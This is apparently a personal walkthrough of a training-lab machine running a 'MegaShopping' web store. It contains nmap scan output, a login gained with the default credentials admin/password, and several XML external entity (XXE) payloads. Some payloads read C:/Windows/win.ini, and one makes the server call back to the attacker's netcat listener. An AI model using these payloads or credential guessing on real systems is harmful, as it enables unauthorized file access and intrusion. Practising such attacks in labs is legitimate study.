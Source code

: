 # 

|     Local    |     Remote     |
| ------------ | -------------- |
| 10.10.15.155 | 10.129.201.205 |
| 10.10.15.155 | 10.129.95.192  |

----

## Nmap
```
nmap 10.129.201.205        
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-21 20:07 EDT
Nmap scan report for 10.129.201.205
Host is up (0.043s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 4.66 seconds
```

```
# nmap -Pn -sS -sV -sC -O -p 22,80,443 10.129.201.205
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-21 20:10 EDT
Nmap scan report for 10.129.201.205
Host is up (0.042s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9f:a0:f7:8c:c6:e2:a4:bd:71:87:68:82:3e:5d:b7:9f (RSA)
|   256 90:7d:96:a9:6e:9e:4d:40:94:e7:bb:55:eb:b3:0b:97 (ECDSA)
|_  256 f9:10:eb:76:d4:6d:4f:3e:17:f3:93:d6:0b:8c:4b:81 (ED25519)
80/tcp  open  http     Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
|_http-title: MegaShopping
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
443/tcp open  ssl/http Apache httpd 2.4.41 ((Win64) OpenSSL/1.1.1c PHP/7.2.28)
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-server-header: Apache/2.4.41 (Win64) OpenSSL/1.1.1c PHP/7.2.28
|_http-title: MegaShopping
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_ssl-date: TLS randomness does not represent time
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019 (88%)
Aggressive OS guesses: Microsoft Windows Server 2019 (88%)
No exact OS matches for host (test conditions non-ideal).

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.83 seconds
```

## Guessed the login creds
1. Searched Google for "default login credentials" and started trying the pairs.
2. Works: admin/password

## XML
One of the pages in the website (Order) uses XML to tranfer form data to the server.
- Use BurpSuite to capture the posting of the form data:
```
POST /process.php HTTP/1.1
Host: 10.129.95.192
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: text/xml
Content-Length: 141
Origin: http://10.129.95.192
Connection: keep-alive
Referer: http://10.129.95.192/services.php
Cookie: PHPSESSID=hmh2uk62nc3m8gmg5knr3n7g3j

<?xml version = "1.0"?>
  <order>
    <quantity>2</quantity>
    <item>Home Appliances</item>
    <address>This is from the address form box.</address>
  </order>
```

We are interested in the bottom portion: `<?xml version = "1.0"?>`

## Google Search

Searched on "xml website vulnerabilities". The first result had this:
- XML External Entity (XXE or XEE) vulnerabilities are a type of security vulnerability that allow attackers to exploit the XML parser functionality in web applications.
- These vulnerabilities occur when an application accepts XML input from untrusted sources without proper validation and processing.

The second result was from the [OWASP site](https://cheatsheetseries.owasp.org/cheatsheets/XML_Security_Cheat_Sheet.html).

## Exploiting XXE/XEE

Google Search on "exploiting xxe". The first result was from PortSwigger (makers of BurpSuite).
- XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data.
- It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.
- In some situations, an attacker can escalate an XXE attack to compromise the underlying server or other back-end infrastructure, by leveraging the XXE vulnerability to perform server-side request forgery (SSRF) attacks. 

### [Exploiting XXE to retrieve files](https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files)

To perform an XXE injection attack that retrieves an arbitrary file from the server's filesystem, you need to modify the submitted XML in two ways:
1. Introduce (or edit) a `DOCTYPE` element that defines an external entity containing the path to the file.
2. Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.

Using our XML data from above: 
```
<?xml version = "1.0"?>
  <order>
    <quantity>2</quantity>
    <item>Home Appliances</item>
    <address>This is from the address form box.</address>
  </order>
```

If the application performs no particular defenses against XXE attacks, we can exploit the XXE vulnerability and retrieve the `/etc/passwd` file (if Linux) or a similarly common file (if Windows):
- The XXE payload defines an external entity `&xxe;` whose value is the contents of the `/etc/passwd` file and uses the entity within the `quantity` value. This causes the application's response to include the contents of the file:
- Use BurpSuite's Repeater to send this code to the server:
```
<?xml version = "1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///C:\Windows\win.ini"> ]>
<order>
  <quantity>&xxe;</quantity>
  <item>Home Appliances</item>
  <address>This is from the address form box.</address>
</order>
```

Didn't work. Tweaked it to this: 
```
<?xml version = "1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///C:/Windows/win.ini"> ]>
<order>
  <quantity>&xxe;</quantity>
  <item>Home Appliances</item>
  <address>This is from the address form box.</address>
</order>
```

Didn't work. 

Googled: "xxe test windows machine"
- [Found this](https://medium.com/@canavaroxum/xxe-on-windows-system-then-what-76d571d66745). He used the following code with a netcat listener waiting on the attack machine:
```
<?xml version = "1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY> 
  <!ENTITY xxe SYSTEM "http://10.10.15.155:1234">]>
<foo>&xxe;</foo>
```
That resulted in this on my listener (showing the server is vulnerable to XXE): 
```
# nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.15.155] from (UNKNOWN) [10.129.95.192] 49695
GET / HTTP/1.0
Host: 10.10.15.155:1234
Connection: close
```

[Note from the original site](https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files): 
- With real-world XXE vulnerabilities, there will often be a large number of data values within the submitted XML, any one of which might be used within the application's response. To test systematically for XXE vulnerabilities, you will generally need to test each data node in the XML individually, by making use of your defined entity and seeing whether it appears within the response.

### Walk-Through: Correct Placement of the Variable

The walk-through for this machine has this: 
```
<?xml version = "1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE root [ <!ENTITY test SYSTEM 'file:///c:/windows/win.ini'> ]>
<order>
  <quantity>3</quantity>
  <item>&test;</item>
  <address>17th Estate, CA</address>
</order>
```

Note the placement: within the `item`tags.
- Putting the varible `test` in any other tag set does not work. 





